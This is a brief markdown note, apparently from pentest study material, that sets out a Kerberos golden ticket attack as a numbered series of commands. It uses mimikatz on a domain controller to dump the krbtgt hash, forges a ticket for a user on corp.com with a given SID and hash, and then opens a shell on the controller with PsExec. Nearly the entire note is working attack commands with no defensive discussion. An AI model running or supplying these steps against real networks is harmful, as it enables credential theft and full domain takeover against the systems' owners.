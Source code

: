 >[!Note] On Domain Controller
>

1.  **Load mimikatz.exe and get debug privs**  

```powershell
.\mimikatz.exe  
privilege::debug  
```
  
  2.  **Dump krbtgt hash**
  
``` powershell
lsadump::lsa /patch  
```
  
>[!NOTE] If needed on another machine besides the Domain Controller 

```
kerberos::purge
```

  
1.  **Pass the KRBTGT hash**

```
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt  
```
  
2.  **Spawn a CMD**  

```
misc::cmd  
```
  
3.  **Then utilize PsExec**

```
PsExec \\dc1 cmd.exe
```